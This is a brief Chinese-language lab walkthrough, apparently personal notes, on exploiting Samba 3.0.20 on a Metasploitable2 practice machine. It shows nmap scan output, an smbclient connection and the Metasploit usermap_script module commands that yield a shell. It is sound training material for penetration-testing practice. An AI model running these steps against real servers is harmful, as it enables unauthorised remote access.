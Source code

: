 ## 利用samba服务漏洞

Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件，由服务器及客户端程序构成,samba服务对应的端口有139、445.

0、使用`nmap -v -A`扫描
```bash
[root@kali: ~#] nmap -v -A metasploitable2 
139/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)

Host script results:
| nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   METASPLOITABLE<00>   Flags: <unique><active>
|   METASPLOITABLE<03>   Flags: <unique><active>
|   METASPLOITABLE<20>   Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP
|_  System time: 2015-04-01T14:55:13-04:00

[root@kali: ~#] smbclient //metasploitable2/tmp
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.20-Debian]
```
1、网上搜索samba，得到利用metasploit的exploit
exploit/multi/samba/usermap_script

2、进入msfconsole
```bash 
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > set RHOST metasploitable2
msf exploit(usermap_script) > exploit
#直接进入shell了

```